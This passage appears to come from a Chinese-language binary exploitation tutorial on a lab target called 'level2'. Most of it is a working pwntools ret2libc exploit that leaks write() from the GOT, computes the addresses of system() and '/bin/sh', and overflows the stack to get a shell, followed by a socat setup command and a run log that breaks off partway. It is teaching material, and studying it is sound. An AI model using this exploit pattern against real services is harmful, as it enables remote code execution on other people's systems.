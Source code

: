 最后exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so')
elf = ELF('level2')

#p = process('./level2')
p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()
```

接着我们使用socat把level2绑定到10003端口:

```
#!bash
socat TCP4-LISTEN:10003,fork EXEC:./level2
```

最后执行我们的exp：

```
#!bash
$python exp3.py 
[+] Opening connection to 127.0.0.1 on port 10003: Done
plt_write= 0x8048340
got_write= 0x804a00c
vulfun= 0x8048404

###sending payload1 ...###

###receving write() addr...###
write_addr=0xb76f64c0

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xb7656460
```